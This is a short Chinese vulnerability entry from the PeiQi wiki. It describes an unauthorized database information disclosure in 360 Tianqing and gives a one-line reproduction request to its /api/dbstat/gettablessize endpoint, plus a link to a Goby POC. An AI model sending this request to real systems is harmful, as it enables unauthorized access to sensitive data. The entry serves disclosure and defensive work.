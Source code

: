 ```yaml
---
title: 天擎 数据库信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 天擎
---
```


# 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](/img/20210924013635251629.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](/img/20210924013635455493.png)